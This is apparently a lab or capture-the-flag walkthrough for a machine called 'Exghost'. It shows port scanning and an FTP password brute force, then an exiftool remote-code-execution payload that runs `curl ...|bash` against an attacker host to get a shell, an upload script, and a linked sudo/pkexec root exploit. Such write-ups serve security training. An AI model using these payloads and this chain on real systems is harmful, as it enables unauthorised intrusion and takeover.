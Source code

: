 # Exghost

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.183.183
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 20:36 +08
Nmap scan report for 192.168.183.183
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE
21/tcp open   ftp
80/tcp open   http
```

FTP and HTTP.

### Port 80 Dead End

Port 80 just shows a 403 page:

<figure><img src="../../../.gitbook/assets/image (54) (9).png" alt=""><figcaption></figcaption></figure>

Running directory scans only shows one directory:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.183.183 -t 100      
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.183.183
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/11 20:54:36 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 320] [--> http://192.168.183.183/uploads/]
```

### FTP Brute Force --> Wireshark

Anonymous credentials don't work with this FTP system, and because we had no other choice, I started brute forcing the FTP login with `hydra`. This took quite a while, but eventually I found some credentials:

{% code overflow="wrap" %}
```
$ hydra -I -L /usr/share/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/seclists/Passwords/cirt-default-passwords.txt 192.168.183.183 ftp

[21][ftp] host: 192.168.183.183  login: user  password: system
```
{% endcode %}

Great! Now we can login and view the files present:

```
$ ftp 192.168.183.183 
Connected to 192.168.183.183.
220 (vsFTPd 3.0.3)
Name (192.168.183.183:kali): user
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0          126151 Jan 27  2022 backup
```

The `backup` file was a PCAP file:

{% code overflow="wrap" %}
```
$ file backup         
backup: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)
```
{% endcode %}

We can open this up in `wireshark` and view the TCP streams. Within TCP Stream 1, we can find this HTTP request:

<figure><img src="../../../.gitbook/assets/image (104) (2).png" alt=""><figcaption></figcaption></figure>

Seems that we are able to upload files through POST requests at `exiftest.php`:

```
$ curl http://192.168.183.183/exiftest.php
There is no file to upload.
```

From the PCAP file, we can actually export the `exiftest.php` file:

<figure><img src="../../../.gitbook/assets/image (99) (1).png" alt=""><figcaption></figcaption></figure>

Interestingly the second `exiftest.php` was the response, and here's the contents:

```
$ cat exiftest\(1\).php 
File uploaded successfully :)<pre>ExifTool Version Number         : 12.23
File Name                       : phpopnW14.jpg
Directory                       : /var/www/html/uploads
File Size                       : 14 KiB
File Modification Date/Time     : 2022:01:27 14:47:37+02:00
File Access Date/Time           : 2022:01:27 14:47:37+02:00
File Inode Change Date/Time     : 2022:01:27 14:47:37+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 120
Y Resolution                    : 120
Image Width                     : 253
Image Height                    : 257
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 253x257
Megapixels                      : 0.065
</pre>
```

### File Upload --> Exiftool RCE

It appears that the website is accepting images, and then running `exiftool` on it as a response. This version of `exiftool` is vulnerable to an RCE exploit.&#x20;

{% embed url="https://github.com/OneSecCyber/JPEG_RCE" %}

We can create the payload by following the PoC:

```
$ exiftool -config eval.config runme.jpg -eval='system("curl 192.168.45.184/shell.sh|bash")'
    1 image files updated
```

We can then upload it using this script:

```python
import requests
url = 'http://192.168.183.183/exiftest.php'
files = {'myFile': open('runme.jpg', 'rb')}
print(requests.post(url, files=files).text)
```

After uploading it, we would get a shell as `www-data`:

<figure><img src="../../../.gitbook/assets/image (94) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Exploit --> Root

I ran a `linpeas.sh` scan on the machine. This found that `sudo` was outdated:

```
[+] Sudo version
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                 
Sudo version 1.8.31
```

{% embed url="https://github.com/joeammond/CVE-2021-4034" %}

We can just download the Python script and execute it to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>
